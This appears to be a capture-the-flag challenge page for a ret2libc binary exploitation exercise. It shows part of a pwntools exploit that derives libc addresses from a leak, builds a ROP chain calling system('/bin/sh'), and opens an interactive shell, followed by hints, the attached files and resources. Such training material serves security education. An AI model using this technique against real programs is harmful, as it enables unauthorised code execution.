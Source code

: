 ```py
# then calculate for system address and /bin/sh address
libcbase = leak - libc_puts_offset
system = libcbase + libc_system_offset
sh = libcbase + sh_offset

payload2 = b'A' * 72 # padding again
payload2 += p64(0x400653) # pop rdi ; ret
payload2 += p64(sh) # shell as argument
payload2 += p64(0x400476) # stack alignment (ROP for ret instr)
payload2 += p64(system) # system calls shell: system(/bin/sh)

# final
p.sendline(payload2)
p.interactive()
```

## Solution
refer to solve.py

## Hints
2. might wanna check out: https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul

## Attached Files
- chall
- chall.c
- libc.so.6

## Resources
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/ret2lib/index.html
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/ret2lib/rop-leaking-libc-address/index.html
- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

## Flag
TBD